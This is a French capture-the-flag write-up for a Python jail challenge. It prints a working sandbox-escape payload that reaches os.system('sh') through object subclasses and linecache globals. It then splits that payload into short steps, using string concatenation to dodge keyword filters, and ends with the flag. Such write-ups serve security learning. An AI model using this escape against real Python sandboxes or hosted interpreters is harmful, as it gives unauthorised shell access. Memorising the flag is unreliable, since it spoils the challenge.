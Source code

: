 # GANKPAME2
```
500 pts
```
## Description
```
Un autre jail, échappe les filtres.
nc 54.37.70.250 1004

Author: 5c0r7
```
## Solution
```
C'est du python jail, identitique à celui des phases de qualifications. Mais des filtres ont été appliquées pour empêcher
la lecture de fichier.
La longueur de l'input est de 30. Au delà de 30 , l'input est tronqué.
Nous avons uniquement droit à 11 tentatives
Il faut donc obtenir directement un shell.
Voici notre payload:
().__class__.__base__.__subclasses__()[-20].__init__.__globals__['linecache'].__dict__['os'].__dict__['system']('sh')
```

`>>> __builtins__['a']=__builtins__`

<img src="File/py1.png">

`>>> a['b']=().__class__.__base__`

<img src="File/py2.png">

`>>> a['c']=a['b'].__subclasses__`

<img src="File/py3.png">

`>>> a['d']=a['c']()[-20]`

<img src="File/py4.png">

`>>> a['e']=a['d'].__init__`

<img src="File/py5.png">

`>>> a['f']=e.__globals__`

<img src="File/py6.png" >

`>>> a['g']=f['line'+'cache']`

<img src="File/py7.png">

`>>> a['h']=g.__dict__['o'+'s']`

<img src="File/py8.png">

`>>> a['i']=h.__dict__`

<img src="File/py9.png">

`>>> a['j']=i["sys"+"tem"]('sh')`

<img src="File/py10.png">

`>>>ls -a`

<img src="File/py11.png" >

`>>>cat .flag`

<img src="File/py12.png" >


## Flag
```
CTF_d33p_1n5Pe(tion_0bJecT_Byp@Ss_b4s!c_Fi1t3r

```





